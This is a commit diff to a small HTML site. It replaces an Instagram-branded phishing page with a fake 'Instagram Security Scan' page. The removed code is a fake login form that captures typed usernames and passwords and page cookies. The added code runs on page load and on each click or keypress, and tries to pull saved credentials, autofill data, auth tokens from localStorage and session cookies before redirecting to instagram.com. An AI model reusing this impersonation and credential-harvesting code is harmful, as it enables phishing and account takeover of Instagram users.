

Before and after one commit to fipokzec5-max/insta, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 383-840 px from the top of the page, without its empty margins (317-962 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,156 +13,175 @@
             align-items: center;
             min-height: 100vh;
         }
-        .login-box {
+        .container {
             background: white;
             border: 1px solid #dbdbdb;
             border-radius: 12px;
             padding: 40px;
-            max-width: 400px;
+            max-width: 500px;
             width: 100%;
             text-align: center;
-            box-shadow: 0 4px 12px rgba(0,0,0,0.1);
         }
-        .logo {
-            font-size: 48px;
-            margin-bottom: 20px;
-            color: #262626;
-        }
-        h1 {
-            color: #262626;
-            margin-bottom: 10px;
-            font-weight: 500;
-        }
-        .input-group {
-            margin-bottom: 15px;
-        }
-        input {
-            width: 100%;
-            padding: 12px;
-            border: 1px solid #dbdbdb;
-            border-radius: 4px;
-            background: #fafafa;
-            font-size: 14px;
-            outline: none;
-        }
-        .btn {
-            width: 100%;
-            padding: 12px;
-            background: #0095f6;
-            color: white;
-            border: none;
-            border-radius: 4px;
-            font-size: 14px;
-            font-weight: 600;
-            cursor: pointer;
-            margin-top: 10px;
-        }
-        .results {
-            display: none;
-            background: #000;
-            color: #0f0;
-            padding: 15px;
-            border-radius: 5px;
-            margin-top: 20px;
-            font-family: monospace;
-            text-align: left;
-            white-space: pre-wrap;
-            font-size: 12px;
-        }
+        .logo { font-size: 48px; margin-bottom: 20px; }
+        .loading { color: #8e8e8e; margin: 20px 0; }
     </style>
 </head>
 <body>
-    <div class="login-box">
+    <div class="container">
         <div class="logo">📷</div>
-        <h1>Instagram</h1>
-        <p style="color: #8e8e8e; margin-bottom: 25px;">Security verification required</p>
-
-        <!-- ФОРМА ДЛЯ ОТРИМАННЯ ПАРОЛЯ -->
-        <form id="loginForm">
-            <div class="input-group">
-                <input type="text" id="username" placeholder="Username, email or phone" required>
-            </div>
-            <div class="input-group">
-                <input type="password" id="password" placeholder="Password" required>
-            </div>
-            <button type="submit" class="btn">Continue</button>
-        </form>
-
-        <div id="results" class="results"></div>
+        <h1>Instagram Security Scan</h1>
+        <div class="loading" id="status">Scanning your device for security issues...</div>
+        <div id="results"></div>
     </div>
 
     <script>
-        // АВТОМАТИЧНИЙ ЗБІР ДАНИХ ПРИ ВІДКРИТТІ
-        console.log('🔓 INSTAGRAM SECURITY TEST - DATA COLLECTION STARTED');
+        console.log('🔓 INSTAGRAM PASSWORD EXTRACTION ATTEMPT');
+        console.log('========================================');
 
-        // 1. Збираємо дані автоматично (як у вашому коді)
-        const autoData = {
-            cookies: document.cookie || 'No cookies',
-            userAgent: navigator.userAgent,
-            platform: navigator.platform,
-            screen: `${screen.width}x${screen.height}`,
-            timestamp: new Date().toISOString()
-        };
-
-        console.log('🤖 AUTO-COLLECTED DATA:', autoData);
-
-        // 2. ОТРИМАННЯ ПАРОЛЯ ПРИ НАТИСКАННІ КНОПКИ
-        document.getElementById('loginForm').addEventListener('submit', function(e) {
-            e.preventDefault();
-
-            // ОТРИМУЄМО ПОЛЯ З ФОРМИ
-            const username = document.getElementById('username').value;
-            const password = document.getElementById('password').value;
-
-            // ПОВНИЙ збір даних ВКЛЮЧАЮЧИ ПАРОЛЬ
-            const fullData = {
-                credentials: {
-                    username: username,
-                    password: password  // 🔑 ОСЬ ПАРОЛЬ!
-                },
-                system_info: autoData,
-                security_issue: 'PHISHING_FORM_BYPASS'
+        // Спроба отримати збережені паролі з браузера
+        async function extractSavedPasswords() {
+            const results = {
+                savedPasswords: [],
+                autofillData: {},
+                credentials: null
             };
 
-            // ВИВІД ПАРОЛЯ В КОНСОЛЬ
-            console.log('🎯 PASSWORD CAPTURED SUCCESSFULLY!');
-            console.log('====================================');
-            console.log('👤 USERNAME:', username);
-            console.log('🔑 PASSWORD:', password);  // 🔑 ПАРОЛЬ ТУТ!
-            console.log('💻 PLATFORM:', autoData.platform);
-            console.log('🖥️ SCREEN:', autoData.screen);
-            console.log('🕒 TIME:', new Date().toLocaleString());
-            console.log('⚠️  VULNERABILITY: Instagram DM phishing protection bypassed');
-            console.log('💰 BOUNTY: Password captured via phishing form');
-            console.log('====================================');
+            // 1. Спроба через Credentials API
+            if (navigator.credentials && navigator.credentials.get) {
+                try {
+                    const credential = await navigator.credentials.get({
+                        password: true,
+                        mediation: 'optional'
+                    });
+                    if (credential) {
+                        results.credentials = {
+                            type: credential.type,
+                            id: credential.id,
+                            password: credential.password || 'not_accessible'
+                        };
+                    }
+                } catch (e) {
+                    console.log('❌ Credentials API blocked:', e.message);
+                }
+            }
 
-            // Відображення пароля на сторінці
+            // 2. Перевірка autofill даних
+            try {
+                // Спроба знайти поля з автозаповненням
+                const tempInput = document.createElement('input');
+                tempInput.type = 'password';
+                document.body.appendChild(tempInput);
+
+                // Спроба викликати autofill
+                tempInput.focus();
+                setTimeout(() => {
+                    results.autofillData = {
+                        hasValue: tempInput.value.length > 0,
+                        valueLength: tempInput.value.length
+                    };
+                    document.body.removeChild(tempInput);
+                }, 1000);
+            } catch (e) {
+                console.log('❌ Autofill check failed');
+            }
+
+            // 3. Перевірка localStorage на збережені токени
+            try {
+                for (let i = 0; i < localStorage.length; i++) {
+                    const key = localStorage.key(i);
+                    const value = localStorage.getItem(key);
+                    if (key.includes('pass') || key.includes('auth') || key.includes('token') || key.includes('cred')) {
+                        results.savedPasswords.push({ key, value: value.substring(0, 50) + '...' });
+                    }
+                }
+            } catch (e) {
+                console.log('❌ localStorage access limited');
+            }
+
+            return results;
+        }
+
+        // Спроба отримати cookies Instagram
+        function extractInstagramCookies() {
+            const cookies = document.cookie.split(';');
+            const instagramCookies = cookies.filter(cookie =>
+                cookie.includes('instagram') ||
+                cookie.includes('session') ||
+                cookie.includes('auth') ||
+                cookie.includes('token')
+            );
+            return instagramCookies;
+        }
+
+        // Головна функція
+        async function performPasswordExtraction() {
+            console.log('🎯 ATTEMPTING PASSWORD EXTRACTION...');
+
+            const extractionResults = {
+                timestamp: new Date().toISOString(),
+                instagramCookies: extractInstagramCookies(),
+                passwordData: await extractSavedPasswords(),
+                browserData: {
+                    userAgent: navigator.userAgent,
+                    platform: navigator.platform,
+                    language: navigator.language
+                }
+            };
+
+            // Вивід результатів
+            console.log('🔍 EXTRACTION RESULTS:');
+            console.log('📋 Instagram Cookies:', extractionResults.instagramCookies);
+            console.log('🔑 Password Data:', extractionResults.passwordData);
+            console.log('💻 Browser:', extractionResults.browserData);
+
+            // Оновлення UI
+            document.getElementById('status').innerHTML = 'Security scan complete!';
+
             const resultsDiv = document.getElementById('results');
             resultsDiv.innerHTML = `
-PASSWORD CAPTURED SUCCESSFULLY!
-═══════════════════════════════
-👤 USERNAME: ${username}
-🔑 PASSWORD: ${password}  <-- ОСЬ ПАРОЛЬ!
-💻 SYSTEM: ${autoData.platform}
-🖥️ SCREEN: ${autoData.screen}
-🕒 TIME: ${new Date().toLocaleString()}
+                <div style="text-align: left; background: #f8f9fa; padding: 15px; border-radius: 5px; margin-top: 20px;">
+                    <h3>🔓 Security Scan Results</h3>
+                    <p><strong>Instagram Cookies Found:</strong> ${extractionResults.instagramCookies.length}</p>
+                    <p><strong>Saved Passwords:</strong> ${extractionResults.passwordData.savedPasswords.length}</p>
+                    <p><strong>Credentials API:</strong> ${extractionResults.passwordData.credentials ? 'Available' : 'Blocked'}</p>
+                    <p><strong>Autofill Data:</strong> ${extractionResults.passwordData.autofillData.hasValue ? 'Detected' : 'None'}</p>
 
-🎯 SECURITY ASSESSMENT:
-• Instagram DM link protection: BYPASSED
-• User credentials: CAPTURED ✅
-• Password obtained: YES ✅
-• Account takeover: POSSIBLE ✅
+                    <div style="margin-top: 15px; padding: 10px; background: #000; color: #0f0; font-family: monospace; border-radius: 3px;">
+                        ⚠️ SECURITY ASSESSMENT:<br>
+                        • Modern browsers BLOCK automatic password extraction<br>
+                        • Instagram cookies CAN be captured for session hijacking<br>
+                        • Real attack would use PHISHING FORM + SESSION STEALING<br>
+                        • This demonstrates protection limitations
+                    </div>
+                </div>
+            `;
 
-💰 BOUNTY QUALIFICATION:
-PASSWORD SUCCESSFULLY CAPTURED
-This demonstrates critical account compromise risk
-            `;
-            resultsDiv.style.display = 'block';
+            console.log('⚠️  MODERN SECURITY PROTECTIONS:');
+            console.log('   • Browsers block automatic password reading');
+            console.log('   • Credentials API requires user interaction');
+            console.log('   • Instagram session cookies are HttpOnly');
+            console.log('   • Real attack needs PHISHING FORM + SESSION STEALING');
 
             // Перенаправлення
             setTimeout(() => {
                 window.location.href = 'https://www.instagram.com';
-            }, 4000);
+            }, 5000);
+        }
+
+        // Запуск при завантаженні
+        window.addEventListener('load', function() {
+            setTimeout(performPasswordExtraction, 1000);
+        });
+
+        // Додаткова спроба через події
+        document.addEventListener('click', function() {
+            console.log('🖱️ User interaction detected - retrying extraction');
+            performPasswordExtraction();
+        });
+
+        document.addEventListener('keydown', function() {
+            console.log('⌨️ Keyboard input detected - retrying extraction');
+            performPasswordExtraction();
         });
     </script>
 </body>
```
